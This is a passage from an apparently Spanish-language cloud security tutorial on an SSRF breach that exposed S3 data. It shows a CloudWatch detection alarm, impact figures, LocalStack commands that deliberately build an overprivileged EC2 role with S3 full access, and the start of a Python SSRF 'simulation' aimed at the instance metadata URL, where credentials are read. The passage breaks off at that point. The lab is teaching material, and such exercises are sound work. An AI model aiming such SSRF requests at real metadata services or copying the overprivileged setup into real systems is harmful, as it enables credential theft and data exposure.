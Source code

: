 **Alarma de CloudWatch:**
```json
{
  "AlarmName": "UnusualS3Access",
  "MetricName": "GetObjectCount",
  "Threshold": 1000,
  "EvaluationPeriods": 1,
  "ComparisonOperator": "GreaterThanThreshold"
}
```

### Impacto

- **Datos comprometidos:** 140 millones de registros
- **Tipos de datos:**
  - Nombres
  - Direcciones
  - Números de teléfono
  - Fechas de nacimiento
  - ~140,000 números de seguro social
  - ~80,000 números de cuenta bancaria
- **Multa:** $80 millones USD
- **Costos totales:** >$300 millones USD

### Ejercicio Práctico: Simular y Prevenir

#### Paso 1: Crear Entorno Vulnerable (LocalStack)

```bash
# Crear instancia EC2 simulada con metadata service
aws --endpoint-url=http://localhost:4566 ec2 run-instances \
    --image-id ami-12345 \
    --instance-type t2.micro \
    --iam-instance-profile Name=OverprivilegedRole

# Crear rol con permisos excesivos
aws --endpoint-url=http://localhost:4566 iam create-role \
    --role-name OverprivilegedRole \
    --assume-role-policy-document file://trust-policy.json

# Adjuntar política permisiva
aws --endpoint-url=http://localhost:4566 iam attach-role-policy \
    --role-name OverprivilegedRole \
    --policy-arn arn:aws:iam::aws:policy/AmazonS3FullAccess
```

#### Paso 2: Simular Ataque SSRF

```python
#!/usr/bin/env python3
"""
Simulación de ataque SSRF para fines educativos
SOLO USAR EN ENTORNOS DE LABORATORIO
"""

import requests
import json

def simulate_ssrf_attack(vulnerable_endpoint):
    """
    Simula un ataque SSRF contra un endpoint vulnerable
    """
    # URL del metadata service
    metadata_base = "http://169.254.169.254/latest/meta-data/"

```